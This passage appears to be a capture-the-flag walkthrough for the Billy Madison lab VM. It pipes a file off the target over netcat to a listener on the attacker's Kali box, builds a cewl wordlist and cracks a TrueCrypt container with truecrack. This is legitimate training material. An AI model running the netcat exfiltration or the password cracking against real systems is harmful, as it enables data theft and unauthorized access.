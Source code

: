 so lets copy this to my kali and make a wordlist from that site

```bash
root@BM:/PRIVATE# cat BowelMovement | nc 192.168.93.149 4444
```

```bash
root@kali:~/BM# nc -nlvp 4444 > BowelMovement
listening on [any] 4444 ...
connect to [192.168.93.149] from (UNKNOWN) [192.168.93.151] 38906
```

```bash
root@kali:~/BM# cewl -d 1 -w Bowl.txt https://en.wikipedia.org/wiki/Billy_Madison
CeWL 5.2 (Some Chaos) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

ok only thing left to do is know what type of file `BowelMovement` is

```bash
root@kali:~/BM# file ./BowelMovement
./BowelMovement: data
```

oh very informative

i'm going to take that the last line in the hint means its a truecrypt file

>That truely cracks me up!  LOLOLOL!

```bash
root@kali:~/BM# truecrack -t ./BowelMovement -w ./Bowl.txt
TrueCrack v3.0
Website: http://code.google.com/p/truecrack
Contact us: infotruecrack@gmail.com
Found password:		"execrable"
Password length:	"10"
Total computations:	"8033"
```

now to open this file google showed that i need vera crypt to open a true crypt file

```bash
wget "https://download-codeplex.sec.s-msft.com/Download/Release?ProjectName=veracrypt&DownloadId=1601964&FileTime=131159523650070000&Build=21031"
--2016-09-23 10:45:20--  https://download-codeplex.sec.s-msft.com/Download/Release?ProjectName=veracrypt&DownloadId=1601964&FileTime=131159523650070000&Build=21031
Resolving download-codeplex.sec.s-msft.com (download-codeplex.sec.s-msft.com)... 104.82.207.204, 104.82.207.204
Connecting to download-codeplex.sec.s-msft.com (download-codeplex.sec.s-msft.com)|104.82.207.204|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 17057701 (16M) [application/octet-stream]
Saving to: ‘Release?ProjectName=veracrypt&DownloadId=1601964&FileTime=131159523650070000&Build=21031’

Release?ProjectName=veracrypt&Dow 100%[==========================================================>]  16.27M  2.95MB/s    in 5.3s

2016-09-23 10:45:26 (3.06 MB/s) - ‘Release?ProjectName=veracrypt&DownloadId=1601964&FileTime=131159523650070000&Build=21031’ saved [17057701/17057701]
```
